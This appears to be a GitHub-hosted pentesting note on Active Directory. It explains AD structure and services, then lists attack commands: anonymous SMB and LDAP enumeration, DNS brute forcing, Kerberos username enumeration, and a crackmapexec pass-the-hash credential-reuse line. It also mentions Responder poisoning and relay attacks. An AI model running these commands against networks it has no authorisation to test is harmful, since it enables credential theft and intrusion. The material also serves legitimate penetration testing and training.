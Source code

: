 Active Directory serves as a foundational technology, enabling network administrators to efficiently create and manage domains, users, and objects within a network. It is engineered to scale, facilitating the organization of an extensive number of users into manageable groups and subgroups, while controlling access rights at various levels.

The structure of Active Directory is comprised of three primary layers: domains, trees, and forests. A domain encompasses a collection of objects, such as users or devices, sharing a common database. Trees are groups of these domains linked by a shared structure, and a forest represents the collection of multiple trees, interconnected through trust relationships, forming the uppermost layer of the organizational structure. Specific access and communication rights can be designated at each of these levels.

Key concepts within Active Directory include:

Directory – Houses all information pertaining to Active Directory objects.

Object – Denotes entities within the directory, including users, groups, or shared folders.

Domain – Serves as a container for directory objects, with the capability for multiple domains to coexist within a forest, each maintaining its own object collection.

Tree – A grouping of domains that share a common root domain.

Forest – The pinnacle of organizational structure in Active Directory, composed of several trees with trust relationships among them.

Active Directory Domain Services (AD DS) encompasses a range of services critical for the centralized management and communication within a network. These services comprise:

Domain Services – Centralizes data storage and manages interactions between users and domains, including authentication and search functionalities.

Certificate Services – Oversees the creation, distribution, and management of secure digital certificates.

Lightweight Directory Services – Supports directory-enabled applications through the LDAP protocol.

Directory Federation Services – Provides single-sign-on capabilities to authenticate users across multiple web applications in a single session.

Rights Management – Assists in safeguarding copyright material by regulating its unauthorized distribution and use.

DNS Service – Crucial for the resolution of domain names.




# Pentest the network:

Scan the network, find machines and open ports and try to exploit vulnerabilities or extract credentials from them (for example, printers could be very interesting targets.

Enumerating DNS could give information about key servers in the domain as web, printers, shares, vpn, media, etc.

    gobuster dns -d domain.local -t 25 -w /opt/Seclist/Discovery/DNS/subdomain-top2000.txt


Check for null and Guest access on smb services (this won't work on modern Windows versions):

    enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP>

    smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP>

    smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //

Enumerate Ldap
    
    nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>


    
    Poison the network

# Gather credentials impersonating services with Responder

Access host by abusing the relay attack

Gather credentials exposing fake UPnP services with evil-SSDP

OSINT:

Extract usernames/names from internal documents, social media, services (mainly web) inside the domain environments and also from the publicly available.


Tools:

w0Tx/generate-ad-username : https://github.com/w0Tx/generate-ad-username

urbanadventurer/username-anarchy: https://github.com/urbanadventurer/username-anarchy



# User enumeration
Anonymous SMB/LDAP enum: Check the pentesting SMB and pentesting LDAP pages.

Kerbrute enum: When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the username was invalid. Valid usernames will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, indicating that the user is required to perform pre-authentication.


    ./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases

    nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
    Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

    msf> use auxiliary/gather/kerberos_enumusers

    crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq

    
    
Credentials Reuse
If you have the hash or password of a local administrator you should try to login locally to other PCs with it.
    
    crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
